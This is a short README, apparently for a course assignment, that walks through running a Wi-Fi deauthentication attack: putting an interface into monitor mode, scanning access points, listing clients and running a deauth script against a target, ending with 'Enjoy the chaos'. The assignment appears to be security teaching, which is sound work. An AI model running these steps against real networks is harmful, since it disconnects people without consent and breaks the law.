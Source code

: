 # Course Asignments

## Environment ##

We dont want to pollute our environement, if you dont care go to step 2

#### Step 1 - Setup virtual environment
Install venv -   ```apt-get install python3-venv```
Create venv  ```python3 -m venv wifi-deauth```
Activate environemnt ```source wifi-deauth/bin/activate```


#### Step 2 - Install requirements
run ```pip install -r requirements.txt```


#### Step 3 - Activate monitoring
Set value `wlan1` interface according to your environment
```iw dev wlan1 interface add wlan0mon type monitor```
```ifconfig wlan0mon up```


#### Step 5 - Scan for access points
```python3 scan_wifi.py```

Open another terminal tab

#### Step 6 - Find Connected Clients
```python3 find_ap_clients.py BSSID```

#### Step 7 - Execute deauth
``` python3 deauth_client.py TARGET_BSSID ACCESS_POINT_BSSID -v```

#### Step 8 - Enjoy the chaos :-)

### Troubleshooting 

**Problem:** 
```No such file or directory: b'liblibc.a'``` this problem occures on python 3.9+
**Solution:** 
```cd /usr/lib/x86_64-linux-gnu/```
```ln -s -f libc.a liblibc.a```